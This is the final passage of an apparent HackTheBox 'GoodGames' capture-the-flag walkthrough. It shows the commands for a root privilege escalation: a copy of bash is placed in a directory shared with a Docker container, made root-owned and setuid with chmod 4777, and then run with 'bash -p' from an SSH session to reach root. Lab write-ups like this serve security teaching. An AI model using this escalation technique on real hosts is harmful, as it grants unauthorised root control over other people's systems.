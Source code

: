 Let's copy over `/bin/bash` in the SSH session:

```
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  test.txt  user.txt
```

Then we can head back to Docker:

```
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# ls
bash  test.txt	user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4777 bash
```

And finally log back in via SSH:

```
augustus@GoodGames:~$ ls
bash  test.txt  user.txt
augustus@GoodGames:~$ ./bash -p
bash-5.0# whoami
root
bash-5.0# hostname
GoodGames
```

We can now grab the final flag:

![htb_goodgames_root.png](../assets/goodgames_assets/htb_goodgames_root.png)

Thanks for following along!

-Ryan

------------------------------------------
